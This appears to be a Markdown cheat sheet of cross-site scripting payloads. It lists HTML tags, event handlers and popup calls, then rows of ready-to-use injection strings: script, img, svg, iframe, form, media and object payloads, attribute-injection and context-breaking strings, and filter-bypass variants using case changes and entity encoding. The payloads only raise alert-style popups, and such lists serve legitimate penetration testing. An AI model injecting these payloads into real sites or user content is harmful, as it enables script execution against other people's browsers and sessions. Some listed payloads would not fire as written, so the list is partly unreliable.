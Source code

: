 ### XSS Different Tags:
```yaml
<script>
<img>
<iframe>
<object>
<embed>
<form>
<input>
<svg>
<video>
<audio>
```

### XSS Different Event Listeners:
```yaml
onload
onerror
onclick
onmouseover
onfocus
onblur
onchange
onsubmit
onkeydown
onresize
```

### Different Popups:
```yaml
alert(1)
confirm(1)
prompt(1)
```

### Note: You cannot use popups in capital letters. You can use tags and event listeners in capital letters, e.g.
```yaml
`<SCRIPT>` ✅
`ONLOAD` ✅
`ALERT(1)` ❌
```


## Basic Tag + Event Listener + Popup Combinations
### Script Tag Payloads
```html
<script>alert(1)</script>
<script>confirm(1)</script>
<script>prompt(1)</script>
<script onload="alert(1)"></script>
<script onerror="confirm(1)"></script>
```

### Image Tag Payloads
```html
<img src=x onerror="alert(1)">
<img src=x onerror="confirm(1)">
<img src=x onerror="prompt(1)">
<img onload="alert(1)" src="data:image/gif;base64,R0lGODlhAQABAIAAAAAAAP///yH5BAEAAAAALAAAAAABAAEAAAIBRAA7">
<img onclick="alert(1)" src=x>
<img onmouseover="confirm(1)" src=x>
<img onfocus="prompt(1)" src=x tabindex=1>
```

### SVG Tag Payloads
```html
<svg onload="alert(1)">
<svg onerror="confirm(1)">
<svg onclick="prompt(1)">
<svg onmouseover="alert(1)"><rect width="100" height="100"/></svg>
<svg onfocus="confirm(1)" tabindex=1>
<svg onresize="prompt(1)">
```

### Iframe Payloads
```html
<iframe src="javascript:alert(1)">
<iframe src="javascript:confirm(1)">
<iframe src="javascript:prompt(1)">
<iframe onload="alert(1)" src="about:blank">
<iframe onerror="confirm(1)" src=x>
```

### Form and Input Payloads
```html
<form onsubmit="alert(1)"><input type=submit>
<form onsubmit="confirm(1)"><input type=submit>
<input onfocus="alert(1)" autofocus>
<input onblur="confirm(1)" autofocus>
<input onchange="prompt(1)" value="test">
<input onkeydown="alert(1)" autofocus>
<input onclick="confirm(1)" type=button value="Click">
```

### Video and Audio Payloads
```html
<video onload="alert(1)" controls>
<video onerror="confirm(1)" src=x>
<video onclick="prompt(1)" poster=x>
<audio onload="alert(1)" controls>
<audio onerror="confirm(1)" src=x>
<audio oncanplay="alert(1)" src="data:audio/wav;base64,UklGRnoGAABXQVZFZm10IBAAAAABAAEAQB8AAEAfAAABAAgAZGF0YQoGAACBhYqFbF1fdJivrJBhNjVgodDbq2EcBj">
```

### Object and Embed Payloads
```html
<object onerror="alert(1)" data=x>
<object onclick="confirm(1)" data="data:text/html,<script>prompt(1)</script>">
<embed src=x onerror="alert(1)">
<embed onclick="confirm(1)" src="javascript:alert(1)">
```

## Advanced Combination Payloads
### Multi-Event Combinations
```html
<img src=x onerror="alert(1)" onclick="confirm(1)" onmouseover="prompt(1)">
<svg onload="alert(1)" onclick="confirm(1)"><rect onmouseover="prompt(1)" width="100" height="100"/></svg>
<input onfocus="alert(1)" onblur="confirm(1)" onchange="prompt(1)" autofocus>
```

### Attribute Injection Payloads
```html
" onclick="alert(1)" "
' onmouseover="confirm(1)" '
"> <script>prompt(1)</script> <"
' onfocus="alert(1)" autofocus '
"onload="confirm(1)"
```

### Event Handler Variations
```html
<body onload="alert(1)">
<body onresize="confirm(1)">
<div onclick="prompt(1)">Click me</div>
<button onmouseover="alert(1)">Hover</button>
<textarea onfocus="confirm(1)" autofocus></textarea>
<select onchange="prompt(1)"><option>1</option><option>2</option></select>
```

### Context-Breaking Payloads
```html
</script><script>alert(1)</script>
"></script><svg onload="confirm(1)">
'><img src=x onerror="prompt(1)">
</title><script>alert(1)</script>
</textarea><script>confirm(1)</script>
```

## Filter Bypass Variations
### Case Variation and Obfuscation
```html
<ScRiPt>alert(1)</ScRiPt>
<IMG SRC=x ONERROR="confirm(1)">
<svg/onload="prompt(1)">
<img src=x onerror=alert(1)>
<iframe src=javascript:confirm(1)>
```

### Encoding Variations
```html
<script>alert&#40;1&#41;</script>
<img src=x onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">
<svg onload="&#99;&#111;&#110;&#102;&#105;&#114;&#109;&#40;&#49;&#41;">
```
